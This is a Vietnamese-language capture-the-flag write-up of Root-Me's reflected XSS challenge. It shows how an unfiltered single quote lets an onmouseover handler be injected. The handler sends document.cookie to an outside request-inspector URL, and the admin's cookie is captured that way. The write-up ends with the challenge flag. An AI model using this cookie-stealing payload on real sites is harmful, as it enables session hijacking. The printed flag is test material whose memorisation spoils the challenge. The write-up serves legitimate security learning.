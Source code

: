 # Write up challenge XSS - Reflected

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>


[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-Reflected)<br>
</br>

Sau khi truy cập challenge ta thấy có một menu. Xem sơ các trang trong menu, ta chỉ thấy có trang contact là có form cho nhập input nhưng theo như ghi chú form sẽ không được check 

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<img src="./img/contact.png" alt="normal_acc_TRAbID"/> 

<br>

Inspect thì phát hiện có một trang Security đã bị ẩn. Tiến hành mở ra thử thì đó là trang 404

<img src="./img/2.png" alt="normal_acc_TRAbID"/> 

<img src="./img/3.png" alt="normal_acc_TRAbID"/>

<img src="./img/4.png" alt="normal_acc_TRAbID"/>

<br>

Ta thấy có một nút Report to the administrator, inspect thì có thể thấy được url khi nhấn report (dùng burpsuite decode cho dễ nhìn)
<img src="./img/7.png" alt="normal_acc_TRAbID"/>

<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<br>

Ta thấy đấy chính là url hiện tại, thử sửa url và kiểm tra lại, ta thấy url gửi lên admin cũng thay đổi tương ứng

<img src="./img/8.png" alt="normal_acc_TRAbID"/>

<img src="./img/9.png" alt="normal_acc_TRAbID"/>

<br>

Mặt khác, khi thay đổi url thuộc tính href trong thẻ `<a>` cũng thay đổi. Có thể đây chính là lỗ hổng. 

<img src="./img/5.png" alt="normal_acc_TRAbID"/>

<br>

Tuy nhiên khi chèn thử kiểm tra ta thấy nhiều kí tự html đã bị lọc, duy nhất 'không được lọc. Ta có thể lợi dụng điểm này để đóng thuộc tính href và chèn thêm thuộc tính khác.

<img src="./img/10.png" alt="normal_acc_TRAbID"/>

<br>

Vì challenge đã có ghi chú là addmin sẽ không nhấp vào bất cứ liên kết nào, nên thuộc tính ta chọn có thể là `onmousemove`. 
<br>
Tiên hành chèn code khai thác

    q' onmouseover='document.write(%22<img src=https://requestinspector.com/inspect/01fzesvkxb0b0x04gctmsqdf33?%22.concat(document.cookie).concat(%22 />%22))

<img src="./img/11.png" alt="normal_acc_TRAbID"/>

<br>

Sau đó di chuột qua element thì ta thấy câu lệnh được thực thi 

<img src="./img/12.png" alt="normal_acc_TRAbID"/>

<br>

Ta có được cookie của user 

<img src="./img/12_1.png" alt="normal_acc_TRAbID"/>

<br>

Bây giờ tiến hành chèn lại code vào url và hấn nút report to the administrator để gửi url lên admin, đợi admin vào trang di chuột qua element và ta sẽ có được cookie:

<img src="./img/13.png" alt="normal_acc_TRAbID"/>

<img src="./img/14.png" alt="normal_acc_TRAbID"/>

<br>

Có được flag:

<img src="./img/15.png" alt="normal_acc_TRAbID"/>

<br>

Submit thành công 

<img src="./img/16.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** r3fL3ct3D_XsS_fTw

